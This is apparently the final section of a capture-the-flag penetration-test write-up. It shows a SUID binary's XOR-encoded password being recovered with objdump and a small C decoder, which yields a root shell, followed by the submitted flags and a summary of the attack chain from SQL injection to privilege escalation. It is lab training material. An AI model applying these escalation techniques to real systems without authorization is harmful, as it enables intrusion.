
</p>

<p align="center">

</p>

The decode function referenced a global variable:

```c
encoded_password
```

The variable was stored in the `.data` section.

---

## Extracting Encoded Password

Command:

```bash
objdump -s -j .data ./hydra_key
```

### Screenshot

<p align="center">

</p>

Recovered Data:

```c
encoded_password[8] =
{
'\b',
'\x1E',
'\x18',
'\t',
'\x1E',
'\x0F',
'Z',
'\0'
};
```

The password was XOR encoded using:

```text
0x7B
```

Since XOR encryption is symmetric, the original password could be recovered.

---

## Decoding Process

A simple C program was written to decode the value.

### Screenshot

```C
#include<stdio.h>
#include<string.h>

char encoded_password[8] = { '\b', '\x1E', '\x18', '\t', '\x1E',
'\x0F', 'Z', '\0' };

int main(){    
 char result[50]; // rax
 int i;

 for ( i = 0; i < strlen(encoded_password); i++ ){
    result[i] = encoded_password[i] ^ 0x7B;
 }

 printf("Password is => %s\n",result);

}
```

Recovered Password:

```text
secret!
```

### Screenshot

<p align="center">

</p>

## Obtaining Root Shell

The binary was executed.

```bash
/usr/local/bin/hydra_key
```

Password Entered:

```text
secret!
```

The program spawned a root shell.

### Screenshot

<p align="center">

</p>

Current User:

```text
root
```

---

## Flag 4

Given Flag:

```text
Y0u_H@ve_The_P0w3r_N0w
```

Submitted Flag:

```text
ITCTF{Y0u_H@ve_The_P0w3r_N0w}
```

---

# 11. Submitted Flags

```text
1. ITCTF{W3b_@dm|n_1o9in_Succe31886}

2. ITCTF{jo#n_u$er_@ccess_Done!}

3. ITCTF{$trin9_4dm1n_p0w3r_unl0ck3d}

4. ITCTF{Y0u_H@ve_The_P0w3r_N0w}
```

---

# 12. Key Learning Points

* Network reconnaissance is the first step in any penetration test.
* Full port scans help identify exposed services.
* Directory fuzzing can reveal hidden functionality.
* SQL Injection can completely bypass authentication.
* Unrestricted file uploads can lead to Remote Code Execution.
* LinPEAS significantly accelerates Linux privilege escalation enumeration.
* Misconfigured SSH keys can lead to lateral movement.
* Weak ZIP passwords are vulnerable to dictionary attacks.
* SUID binaries should be carefully audited.
* Reverse engineering can reveal hidden privilege escalation paths.
* XOR obfuscation is not a secure protection mechanism.
* Multiple low-severity vulnerabilities can combine into full system compromise.

---

# Attack Path Summary

```text
Network Discovery
        ↓
Nmap Enumeration
        ↓
Directory Fuzzing
        ↓
SQL Injection
        ↓
Admin Access
        ↓
File Upload RCE
        ↓
www-data
        ↓
SSH Private Key Exposure
        ↓
john
        ↓
Cracked Backup Archive
        ↓
admin
        ↓
SUID Binary Analysis
        ↓
Root Shell
```

---

# End
